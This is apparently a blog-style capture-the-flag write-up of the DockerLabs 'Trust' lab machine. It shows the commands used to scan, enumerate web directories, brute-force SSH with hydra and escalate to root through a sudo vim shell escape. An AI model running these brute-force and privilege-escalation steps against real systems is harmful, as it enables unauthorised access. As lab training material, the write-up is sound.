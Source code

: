 ```yaml
---
title: Trust Writeup - DockerLabs
date: 2024-06-25
categories:
    - Writeups
    - DockerLabs
tags:
    - Linux
    - DockerLabs
    - CTF
    - Very Easy
img_path: /assets/img/commons/trust/
image: trust.png
---
```


Hello!

In this write-up, we will dive into the **DockerLabs** machine [Trust](https://mega.nz/file/wD9BgLDR#784mjg4xwoolyyKMqdGLk1_YntbJLItJ7RFRx9A69ZE).

Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active:

```bash
ping -c 1 172.18.0.2
```


## Port scanning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv 172.18.0.2 -oG allPorts
```

The only open ports that we see are 80 (HTTP server) and 22 (SSH), we can see more information of the services by executing:

```bash
nmap -sCV 22,80 172.18.0.2 -oN targeted -oX targetedXML
```

![nmap](nmapScan.png)


## Exploitation
---
We don't see nothing on the web so we are going to enumerate directories in order to find hidden paths:

```bash
gobuster -u http://172.18.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -r
```

```txt
Report produced on Tue Jun 25 19:24:11 CEST 2024
--------------------------------

http://172.18.0.2:80
--------------------------------
Directories found during testing:

Dirs found with a 403 response:

/icons/
/icons/small/

Dirs found with a 200 response:

/


--------------------------------
Files found during testing:

Files found with a 200 responce:

/secret.php


--------------------------------
```

We find the url `/secret.php`. If we open it, we can see the following website:

![secret_path](secret-php.png)

We don't see anything interesting, except a possible username (**Mario**)

We can now try access to the machine via SSH as the user **Mario** by bruteforcing the user's password using _hydra_:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![hydra](hydra_result.png)

We have now access as the user Mario:

![user_access](userAccess.png)

<br>

## Privilege escalation
---

Now, as the user Mario, we are able to run the command `sudo -l` to try to find superuser processes that we can run as the user prod:

![sudo-l](privilege1.png)

We find that we can execute the `vim` tool as sudo.

We can simply access `vim` and type `:!/bin/bash` or we can directly obtain a shell by executing the command:

```bash
sudo vim -c ':!/bin/bash'
```

![sudo_access](privilege2.png)

In both ways we gain superuser access and we have the whole system committed.


> H4Ppy H4ck1ng!
